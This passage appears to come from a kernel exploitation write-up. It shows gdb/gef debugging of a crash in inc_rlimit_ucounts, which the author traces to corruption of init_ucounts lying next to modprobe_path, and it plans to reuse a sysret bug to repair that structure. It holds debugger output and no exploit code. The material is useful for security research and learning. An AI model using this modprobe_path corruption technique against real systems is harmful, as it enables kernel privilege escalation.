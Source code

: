 ```
[    5.121063]  ? __pfx_worker_thread+0x10/0x10
[    5.121603]  kthread+0xd1/0x100
[    5.121996]  ? __pfx_kthread+0x10/0x10
[    5.122464]  ret_from_fork+0x29/0x50
[    5.122923]  </TASK>
```

It crashed somewhere in `inc_rlimit_ucounts`, I had no clue why so I set a breakpoint at it, restarted the vm, and ran tried to trigger the bug again.

```
0xffffffff8109e9b1 in inc_rlimit_ucounts ()
   0xffffffff8109e9a6 <inc_rlimit_ucounts+38> cmp    rdi, rcx
   0xffffffff8109e9a9 <inc_rlimit_ucounts+41> cmove  r10, rax
   0xffffffff8109e9ad <inc_rlimit_ucounts+45> mov    rax, QWORD PTR [rcx+0x10]
 → 0xffffffff8109e9b1 <inc_rlimit_ucounts+49> mov    rcx, QWORD PTR [rax+0x1e0]
   0xffffffff8109e9b8 <inc_rlimit_ucounts+56> mov    r9, QWORD PTR [rax+r8*8+0x8]
   0xffffffff8109e9bd <inc_rlimit_ucounts+61> test   rcx, rcx
   0xffffffff8109e9c0 <inc_rlimit_ucounts+64> je     0xffffffff8109e9e4 <inc_rlimit_ucounts+100>
   0xffffffff8109e9c2 <inc_rlimit_ucounts+66> mov    rax, rdx
   0xffffffff8109e9c5 <inc_rlimit_ucounts+69> ds     xadd QWORD PTR [rcx+rsi*1], rax
```

This instruction is what crashes, it is dereferencing some value it got from the address in rcx, so what is rcx?

```
gef➤  x/20gx $rcx
0xffffffff8203b6c0 <init_ucounts>:      0x0000000000000000      0xffffffff810c50b3
0xffffffff8203b6d0 <init_ucounts+16>:   0xffffffff00000028      0x000000008203b730
0xffffffff8203b6e0 <init_ucounts+32>:   0xffffffff8203b6f0      0x18581c54482e2a00
0xffffffff8203b6f0 <init_ucounts+48>:   0x18581c54482e2a00      0xffffffff81e99724
0xffffffff8203b700 <init_ucounts+64>:   0x00007fffade979fc      0x0000000100ad0001
0xffffffff8203b710 <init_ucounts+80>:   0x0000000000370ef0      0xffffffff8203b5f0
0xffffffff8203b720 <init_ucounts+96>:   0xffffffff81e99724      0xffffffff81024f2d
0xffffffff8203b730 <init_ucounts+112>:  0xffff88813bc00001      0x000000000000016e
0xffffffff8203b740 <init_ucounts+128>:  0x0000000080050033      0x0000000000000046
```

Looks like rcx is the address of `init_ucounts` I don't really know what this is for, but I see a user space stack address in there so I'm guessing I accidentally corrupted this...

And it is right up against `modprobe_path`, so definitely my fault.

```
gef➤  p/x (void*)&modprobe_path - (void*)&init_ucounts
$17 = 0x180
```

So I figured what if I could just use more corruption by triggering the sysret bug again to uncorrupt `init_ucounts`.

```
gef> x/20gx &init_ucounts
0xffffffff8203b6c0 <init_ucounts>:      0xffff888100049600	0xffffffff82640160
0xffffffff8203b6d0 <init_ucounts+16>:	0xffffffff8203a320	0x0000002f00000000
0xffffffff8203b6e0 <init_ucounts+32>:	0x0000000000000000	0x0000000000000000
0xffffffff8203b6f0 <init_ucounts+48>:	0x0000000000000000	0x0000000000000000
0xffffffff8203b700 <init_ucounts+64>:	0x0000000000000000	0x0000000000000000
0xffffffff8203b710 <init_ucounts+80>:	0x0000000000000000	0x0000000000000000
0xffffffff8203b720 <init_ucounts+96>:	0x0000000000000000	0x0000000000000000
0xffffffff8203b730 <init_ucounts+112>:	0x000000000000002a	0x0000000000000000
0xffffffff8203b740 <init_ucounts+128>:	0x0000000000000000	0x0000000000000000
```
